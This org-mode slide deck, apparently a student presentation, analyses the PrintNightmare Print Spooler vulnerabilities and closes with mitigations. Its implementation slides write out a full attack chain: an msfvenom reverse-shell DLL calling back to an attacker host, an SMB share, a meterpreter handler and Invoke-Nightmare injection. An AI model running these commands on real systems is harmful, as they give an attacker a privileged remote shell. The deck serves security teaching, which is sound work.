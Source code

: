 :REVEAL_PROPERTIES:
#+REVEAL_ROOT: https://cdn.jsdelivr.net/npm/reveal.js
#+REVEAL_REVEAL_JS_VERSION: 4
#+REVEAL_THEME:serif
#+REVEAL_INIT_OPTIONS: transition: 'concave', width:1200, height:800
#+REVEAL_TITLE_SLIDE: <h2 class="title">%t</h2><em>%s</em><br><br>%a<br>%d
#+reveal_extra_css: css/extra.css
#+OPTIONS: timestamp:nil toc:1 num:nil
:END:

#+title: PrintNightmare
#+author: Sudhanv Apte, 陳峰楷, 李光耀, Abdillahi Ahmed

* Introduction
- Windows has a service called Print Spooler
- Manages all local and network printing

** CVEs
- *CVE-2021-1675*, low class vulnerability, allowed privilege escalation
- Required direct access to the system thus labeled low risk
- Fixed by MS as of Jun 8, 2021
- *CVE-221-34527*, high risk, allowed remote code execution
- Rated 8.8 on the Common Vulnerabiltity Scoring System Scale
** Framework
- *mimikatz* was first to implement the exploit with both CVEs
- It was first created as a PoC to show vulns in MS authentication protocols
- Now it is used by attackers and pentesters to detect potential exploits

* Vulnerabiltity Analysis
- Two vulns are triggered by the PrintSpoolerService RPC method
  #+ATTR_HTML: :width 70%
  [[./assets/nspt/cve1.png]]

  #+ATTR_HTML: :width 70%
  [[./assets/nspt/cve2.png]]

** Continued ..

- Once the RPC functions are processed, the YAddPrinterDriverEx function is called
- There is no conditional judgment on the param dwFileCopyFlags
- The AddPrinterDriverEx function installs local/remote printer drivers and links config, data and driver files
  #+ATTR_HTML: :class middle :width 30%
  [[./assets/nspt/addprinter.png]]

** Continued ..
- dwFileCopyFLags can set "APD INSTALL WARNED DRIVER" flag
- When printer driver is added, the DLL is loaded with highest permission

  #+ATTR_HTML: :class middle :width 50%
[[./assets/nspt/error.png]]
** The Vulnerability
- Use Process monitor to capture exploit when DLL is loaded
  #+ATTR_HTML: :width 70%
  [[./assets/nspt/pm.png]]
- dwFileCopyFlags check is skipped when calling YAddPrinterDriverEx method
    #+ATTR_HTML: :width 60%
  [[./assets/nspt/yadd.png]]
    [[./assets/nspt/apd.png]]
** ValidateObjectAccess
- mimikatz will pass RpcBindingSetAuthInfoEx method with some params
- After execution, user sets username which is regarded as permission
- ValidateObjectAccess result is 0 for user and 1 for admin
    #+ATTR_HTML: :width 60%
  [[./assets/nspt/rpcbind.png]]

    #+REVEAL: split
- If the "APD INSTALL WARNED DRIVER" flag is 1, the result of _bittest method will be 1 and v12 will be 0, as a result ValidateObjectAccess is bypassed
    #+ATTR_HTML: :width 60%
  [[./assets/nspt/bittest.png]]
** ValidateDriverInfo
- This part checks if the driver name is valid
- Execution flow is as follows:
  - Check if it is a local file
  - Check init key
  - Verify legitimacy of the driver file
    [[./assets/nspt/vdi.png]]
- When dwFileCopyFlags contains APD INSTALL WARNED DRIVER, the result is 0x8000 and value is 0
- This skips further verification by driver

    #+ATTR_HTML: :width 50%
  [[./assets/nspt/dwfile.png]]
** Get file handle
- Value of v13 is obtained by inverting lower 8 bits of dwFileCopyFlags
- Shifting it 4 bits to right and performing AND with 1
- v13 determines 5th param of the CreateInternalDriverFileArray
    #+ATTR_HTML: :width 60%
  [[./assets/nspt/spl.png]]
- After calculation, when value of lower 8 bits of dwFileCopyFlags is 0x1X, a5 can be set to 0
#+REVEAL: split
- When a5 is 0, validity check of the driver can be avoided
    #+ATTR_HTML: :width 50%
  [[./assets/nspt/a5.png]]
- Open file via CreateFile method, get 3 file handles
- Save them in space requested by DllAllocSplMem method for later file update use
  [[./assets/nspt/dll.png]]

** Copy files to driver space
- pConfigFile, pDataFile and pDriverPath save their respective file paths
- When moving files of the above members, the following operations are required:
  - Check file info of the file handle
  - Copy file to *"C:\Windows\System32\spool\drivers\x64\3\new"*
  - Using MoveNewDriverRelatedFiles, move files and realize the update file
    #+ATTR_HTML: :width 60%
    [[./assets/nspt/copy.png]]
** Update Driver Files
- Load the new config file
- When loaded it will run the driver's DLL
- Our DLL will be executed with highest permission
  [[./assets/nspt/update.png]]

* Implementation
- Environment:
  - Windows 10 1607
  - Kali 2022.3
  - Python 3.10.5

- Git repos used:
  - https://github.com/tryhackme/CVE-2021-1675
  - https://github.com/tryhackme/impacket
  - https://github.com/JohnHammond/CVE-2021-34527

- python requires impacket which can be installed through github

** Setup
- Setup exploit DLL
  #+begin_src
msfvenom -p /path/to/reverse_tcp LHOST=[YOUR_IP] LPORT=4545 -f dll -o reverse_tcp.dll
  #+end_src
- Execute DLL
  #+begin_src
smbserver.py share [YOUR_EXPLOIT_DLL_LOCATION] -smb2support

msfconsole
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST [YOUR_IP]
set LPORT 4545
run -j
  #+end_src
- DLL Injection
    #+begin_src
powershell -ep bypass
..\CVE-2021-1675.ps1
Invoke-Nightmare -DLL C:\Users\test\Desktop\reverse_tcp.dll

# go back to msfconsole
session -i 1
    #+end_src

* Demo
* Conclusion
- Spooler vuln was first used in Stuxnet attack 10 years ago
- MS has taken step to ameliorate the situation and released patches within 5 days
- A quick way to stop the vulnerability is to stop the PrintSpooler service
- Another workaround is to disable the inbound remote printing operations via group policy
